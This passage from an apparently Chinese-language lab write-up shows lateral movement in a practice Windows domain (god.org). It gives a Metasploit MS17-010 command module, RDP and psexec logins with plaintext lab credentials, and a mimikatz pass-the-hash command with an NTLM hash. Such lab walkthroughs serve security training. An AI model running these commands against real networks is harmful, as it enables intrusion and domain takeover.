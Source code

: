 ##### 5.漏洞扫描

### 3、使用漏洞控制内网其他机器

#### 1.ms17_010

```
search ms17_010
use auxiliary/admin/smb/ms17_010_command
set rhosts 192.168.52.141
run
```

![image-20220322193724552](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24egy1h0iw5s1z1sj218k0h6n0d.jpg)

#### 2.是有密码远程桌面登录

```
proxychains rdesktop 192.168.52.141 -u liukaifeng01 -p hongrisec@2019
```

#### 3.psexec攻击

内网中，最总要的还是域管理员账号，有了域管理员账号后，可以使用该域管理员账号密码利用 psexec 登录域内任何一台开启了admin$共享(该共享默认开启) 的主机。
下载地址：
pstools:https://download.sysinternals.com/files/PSTools.zip

```
psexec.exe \\10。37.129.7 -u god\administrator -p hongrisec@2019 cmd
```

这里其实已经登录成功，因为账号安全周期原因密码过期了

![在这里插入图片描述](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24egy1h0iwowhfp1j20nq0b4t9q.jpg)

更改密码后再次登录：

#### 4.域hash传递攻击

与psexec类似，当我获取获取到域管理员密码NTLM hash值时，可借助mimikatz进行进行登录域内其他电脑：

```
sekurlsa::pth /user:administrator /domain:"god.org" /ntlm:c456c606a647ef44b646c44a227917a4
```

![在这里插入图片描述](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24egy1h0iwpkxcykj20na0nk77f.jpg)
